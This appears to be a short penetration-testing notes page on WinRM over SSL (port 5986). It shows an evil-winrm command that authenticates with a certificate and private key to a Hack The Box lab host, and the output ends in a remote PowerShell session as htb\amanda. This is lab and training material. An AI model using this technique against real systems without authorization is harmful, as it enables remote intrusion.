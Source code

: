 # WinRM - 5985,5986

## 5986 - WinRM with SSL

First, create a private key and a signed certificate. 

{% embed url="https://wixnic.gitbook.io/hacknotes/cryptography/certificates" %}

We can use a signed certificate and private key to connect with WinRM with SSL.

```bash
❯ evil-winrm -S -c certnew.cer -k filename.key -i 10.10.10.103

Evil-WinRM shell v3.1

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\amanda\Documents> whoami
htb\amanda
*Evil-WinRM* PS C:\Users\amanda\Documents>
```





